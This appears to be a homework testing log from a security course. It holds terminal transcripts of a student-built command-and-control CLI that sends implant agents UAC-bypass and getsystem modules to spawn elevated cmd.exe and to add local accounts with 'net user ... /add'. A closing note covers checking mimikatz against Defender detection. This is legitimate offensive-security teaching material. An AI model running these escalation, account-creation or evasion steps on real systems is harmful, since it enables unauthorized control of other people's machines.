




# HW10 Testing

## Success Cases

Spawn a High integrity cmd.exe using bypassuac:
```
C:\Users\User\cs151\Server\cli>py .\cli.py
> agents

agents > list

--------------------------------------------------
ID              : 201e7938
Machine GUID    : 38481ef6-4a6a-42dd-b2b2-060126703b49
Username        : User
Hostname        : CS151-OFS-08
Integrity       : 3
Process Arch    : 1
Internal IP     : 192.168.1.100
External IP     : 1.1.1.1
First Checkin   : Mon, 18 Apr 2022 21:51:20 GMT
Updated         : Mon, 18 Apr 2022 21:51:20 GMT
-------
--------------------------------------------------
agents > use 201e7938

ID              : 201e7938
Machine GUID    : 38481ef6-4a6a-42dd-b2b2-060126703b49
Username        : User
Hostname        : CS151-OFS-08
Integrity       : 3
Process Arch    : 1
Internal IP     : 192.168.1.100
External IP     : 1.1.1.1
First Checkin   : Mon, 18 Apr 2022 21:51:20 GMT
Updated         : Mon, 18 Apr 2022 21:51:20 GMT
-------
201e7938 > bypassuac 1 C:\windows\system32\cmd.exe

{'agent_id': '201e7938',
 'input_args': 'C:\\windows\\system32\\cmd.exe',
 'path': 'cli\\modules\\bypassUAC\\bypassUAC_x64.dll',
 'type': 12}
{'message': 'OK'}
201e7938 > history

--------------------------------------------------
---
ID              : dac6272b
Type            : BypassUAC
Input           : C:\windows\system32\cmd.exe
Status          : Completed
Created         : Mon, 18 Apr 2022 21:51:53 GMT
Updated         : Mon, 18 Apr 2022 21:52:03 GMT
--------------------------------------------------
201e7938 >
```



Spawn a SYSTEM integrity cmd.exe using getsystem:
```
agents > list

--------------------------------------------------
ID              : 10275c03
Machine GUID    : 38481ef6-4a6a-42dd-b2b2-060126703b49
Username        : User
Hostname        : CS151-OFS-08
Integrity       : 4
Process Arch    : 1
Internal IP     : 192.168.1.100
External IP     : 1.1.1.1
First Checkin   : Mon, 18 Apr 2022 23:43:48 GMT
Updated         : Mon, 18 Apr 2022 23:43:48 GMT
-------
--------------------------------------------------
agents > use 10275c03

ID              : 10275c03
Machine GUID    : 38481ef6-4a6a-42dd-b2b2-060126703b49
Username        : User
Hostname        : CS151-OFS-08
Integrity       : 4
Process Arch    : 1
Internal IP     : 192.168.1.100
External IP     : 1.1.1.1
First Checkin   : Mon, 18 Apr 2022 23:43:48 GMT
Updated         : Mon, 18 Apr 2022 23:43:48 GMT
-------
10275c03 > getsystem 1 C:\windows\system32\cmd.exe

{'agent_id': '10275c03',
 'input_args': 'C:\\windows\\system32\\cmd.exe',
 'path': 'cli\\modules\\getSystem\\getSystem_x64.dll',
 'type': 13}
{'message': 'OK'}
10275c03 > history

--------------------------------------------------
---
ID              : dba56eaa
Type            : GetSystem
Input           : C:\windows\system32\cmd.exe
Status          : Completed
Created         : Mon, 18 Apr 2022 23:44:28 GMT
Updated         : Mon, 18 Apr 2022 23:44:29 GMT
--------------------------------------------------
10275c03 >
```


Make sure you can pass in multiple arguments to bypassuac and getsystem:

BypassUAC:
```
agents > use b2f115fb

ID              : b2f115fb
Machine GUID    : 38481ef6-4a6a-42dd-b2b2-060126703b49
Username        : User
Hostname        : CS151-OFS-08
Integrity       : 3
Process Arch    : 1
Internal IP     : 192.168.1.100
External IP     : 1.1.1.1
First Checkin   : Tue, 19 Apr 2022 02:59:06 GMT
Updated         : Tue, 19 Apr 2022 02:59:06 GMT
-------
b2f115fb > bypassuac 1 "net user test1 Password1! /add"

{'agent_id': 'b2f115fb',
 'input_args': 'net user test1 Password1! /add',
 'path': 'cli\\modules\\bypassUAC\\bypassUAC_x64.dll',
 'type': 12}
{'message': 'OK'}
b2f115fb > history

--------------------------------------------------
---
ID              : d8db82a7
Type            : BypassUAC
Input           : net user test1 Password1! /add
Status          : Completed
Created         : Tue, 19 Apr 2022 03:00:28 GMT
Updated         : Tue, 19 Apr 2022 03:00:33 GMT
--------------------------------------------------
b2f115fb >
```



GetSystem:
```
--------------------------------------------------
agents > use 4804403b

ID              : 4804403b
Machine GUID    : 38481ef6-4a6a-42dd-b2b2-060126703b49
Username        : User
Hostname        : CS151-OFS-08
Integrity       : 4
Process Arch    : 1
Internal IP     : 192.168.1.100
External IP     : 1.1.1.1
First Checkin   : Tue, 19 Apr 2022 02:55:47 GMT
Updated         : Tue, 19 Apr 2022 02:55:47 GMT
-------
4804403b > getsystem 1 "net user test2 Password1! /add"

{'agent_id': '4804403b',
 'input_args': 'net user test2 Password1! /add',
 'path': 'cli\\modules\\getSystem\\getSystem_x64.dll',
 'type': 13}
{'message': 'OK'}
4804403b >
```




## Failure Cases

Attempt to spawn a High integrity cmd using bypassuac when the user is not in the Local Admin group:
```
agents > use 250c2616

ID              : 250c2616
Machine GUID    : 38481ef6-4a6a-42dd-b2b2-060126703b49
Username        : test1
Hostname        : CS151-OFS-08
Integrity       : 3
Process Arch    : 1
Internal IP     : 192.168.1.100
External IP     : 1.1.1.1
First Checkin   : Tue, 19 Apr 2022 03:38:14 GMT
Updated         : Tue, 19 Apr 2022 03:38:14 GMT
-------
250c2616 > bypassuac 1 C:\windows\system32\cmd.exe

{'agent_id': '250c2616',
 'input_args': 'C:\\windows\\system32\\cmd.exe',
 'path': 'cli\\modules\\bypassUAC\\bypassUAC_x64.dll',
 'type': 12}
{'message': 'OK'}
250c2616 > history

--------------------------------------------------
---
ID              : bb46dac9
Type            : BypassUAC
Input           : C:\windows\system32\cmd.exe
Status          : Failed
Created         : Tue, 19 Apr 2022 03:38:24 GMT
Updated         : Tue, 19 Apr 2022 03:38:25 GMT
------------------
```

Attempt to spawn a SYSTEM cmd using getsystem when the client is in Medium integrity:
```
agents > use 4db3b449

ID              : 4db3b449
Machine GUID    : 38481ef6-4a6a-42dd-b2b2-060126703b49
Username        : User
Hostname        : CS151-OFS-08
Integrity       : 3
Process Arch    : 1
Internal IP     : 192.168.1.100
External IP     : 1.1.1.1
First Checkin   : Tue, 19 Apr 2022 03:04:04 GMT
Updated         : Tue, 19 Apr 2022 03:04:04 GMT
-------
4db3b449 > getsystem 1 C:\windows\system32\cmd.exe

{'agent_id': '4db3b449',
 'input_args': 'C:\\windows\\system32\\cmd.exe',
 'path': 'cli\\modules\\getSystem\\getSystem_x64.dll',
 'type': 13}
{'message': 'OK'}
4db3b449 > history

--------------------------------------------------
---
ID              : 7d0512fc
Type            : GetSystem
Input           : C:\windows\system32\cmd.exe
Status          : Failed
Created         : Tue, 19 Apr 2022 03:04:25 GMT
Updated         : Tue, 19 Apr 2022 03:04:34 GMT
--------------------------------------------------
4db3b449 >
```


# Feedback on Homework 9

Still an issue running mimikatz by DefenderCheck.exe on 2/5 machines, where DefenderCheck is halting on abcdefghijklmnopqrstuvwxyz and ABCDEFGHIJKLMNOPQRSTUVWXYZ, but works on the other machines that we have tested it on. Assuming that it is thus an issue in the way that we have some of these VMs set up rather than the code that we've written since we've been running it the same way.

